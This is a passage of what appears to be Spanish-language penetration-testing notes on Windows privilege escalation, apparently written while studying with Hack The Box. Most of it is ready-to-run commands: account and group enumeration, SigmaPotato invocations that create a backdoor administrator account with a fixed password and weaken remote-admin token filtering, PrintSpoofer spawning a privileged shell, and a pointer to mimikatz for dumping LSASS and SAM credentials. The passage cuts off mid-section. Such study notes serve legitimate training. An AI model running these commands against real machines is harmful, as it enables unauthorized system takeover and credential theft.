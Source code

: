 	```powershell
	whoami /groups
	```
- Mostrar todos los usuarios
	```powershell
	net user
	```
- Mostrar todos los grupos
	```powershell
	net localgroup
	```
- Detalles de un grupo en concreto
	```powershell
	net localgroup administrators
	```
- Política de contraseñas y alguna información adicional
	```powershell
	net accounts
	```
#### Named pipes
[TODO](https://academy.hackthebox.com/module/67/section/926)

## Privilegios de usuarios
- Comprobar privilegios 
	```powershell
	whoami /priv
	```
### SeImpersonate Privilege 
- `SigmaPotato`
	```powershell
	.\sigmapotato.exe "net user an0nio Password123 /add"	
	.\sigmapotato.exe "net localgroup Administrators an0nio /add"
	# Evitar restricciones con LocalAccountTokenFilterPolicy, -> permite impacket-psexec
	.\sigmapotato.exe "reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
	```
- `PrintSpoofer`
	```powershell
	.\PrintSpoofer.exe -i -c "powershell"	
	```
- `GodPotato` - [github](https://github.com/BeichenDream/GodPotato/releases)
	```powershell
	# Hay que hacer la siguiente petición para saber qué potato elegir, luego funciona como sigmapotato
	reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
	```
- `JuicyPotato` - [github](https://github.com/antonioCoco/JuicyPotatoNG?tab=readme-ov-file)
- `RoguePotato` - [github](https://github.com/antonioCoco/RoguePotato)
### SeDebugPrivilege
- Por una parte podemos activar mimikatz con `privilege::debug`, lo cual nos permite volcar LSASS, SAM (podríamos intentar volcar de forma [[Credenciales en Windows#Obtener lsass.dmp| menos automática]] si no funciona, ya que tenemos permisos)
- RCE como system con `psgetsys.ps1`
	```powershell
	# Funcionamiento
